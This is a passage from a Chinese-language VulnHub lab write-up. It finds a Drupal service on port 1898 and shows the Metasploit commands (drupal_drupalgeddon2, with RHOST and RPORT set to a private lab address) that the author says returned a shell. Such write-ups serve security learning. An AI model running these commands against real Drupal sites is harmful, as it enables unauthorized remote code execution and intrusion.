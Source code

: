 1898端口中运行着一个Drupal服务，重点应该是在这里了

![](vulnhub-练习记录\29.png)

## msf getshell

msf搜了一波之后可以看到一个`Drupal`2018年的exp，于是决定尝试一下

![](vulnhub-练习记录\30.png)

没想的居然就成功了，返回了一个msf 的shell

```shell
use exploit/unix/webapp/drupal_drupalgeddon2 
show options
set RHOST 192.168.85.137
set RPORT 1898
exploit
```
